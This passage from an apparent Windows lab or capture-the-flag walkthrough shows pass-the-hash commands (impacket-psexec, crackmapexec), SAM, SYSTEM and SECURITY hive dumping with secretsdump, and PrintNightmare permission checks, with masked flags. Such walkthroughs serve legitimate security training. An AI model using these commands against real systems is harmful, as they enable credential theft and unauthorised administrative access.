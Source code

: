 **FLAG{S***************9}** - In DebugFlags registry

### Step 5.4: Pass-the-Hash

With NTLM hashes from Mimikatz:

```bash
# From Kali, use the hash
impacket-psexec -hashes aad3b435b51404eeaad3b435b51404ee:8846f7eaee8fb117ad06bdd830b7586c Administrator@$TARGET

# Or with CrackMapExec
crackmapexec smb $TARGET -u Administrator -H 8846f7eaee8fb117ad06bdd830b7586c --exec-method smbexec -x "type C:\Windows\System32\config\systemprofile\pth_success.txt"
```

**FLAG{M***************9}** - Accessible after PTH

### Step 5.5: SAM Database

```powershell
# If you find SAM backups
reg save HKLM\SAM sam.hiv
reg save HKLM\SYSTEM system.hiv
reg save HKLM\SECURITY security.hiv

# Transfer to Kali and extract
impacket-secretsdump -sam sam.hiv -system system.hiv LOCAL

# Or if you find backup files in shares
# Check C:\Backup\sam_backup_info.txt
```

**FLAG{G***************5}** - Related to SAM backup

### Step 5.6: RDP Certificate Properties

```powershell
# Check RDP certificate properties
reg query "HKLM\System\CurrentControlSet\Control\Terminal Server" /s
Get-ItemProperty -Path "HKLM:\System\CurrentControlSet\Control\Terminal Server"
```

**FLAG{G***************6}** - In CertificateComment property

## Phase 6: Print Spooler Exploitation

### Step 6.1: PrintNightmare Check

```powershell
# Check if Print Spooler is running
Get-Service Spooler

# Check for vulnerability
ls C:\Windows\System32\spool\drivers\
icacls C:\Windows\System32\spool\drivers\color

# If writable by users, it's vulnerable
Get-Acl C:\Windows\System32\spool\drivers\color | fl
```
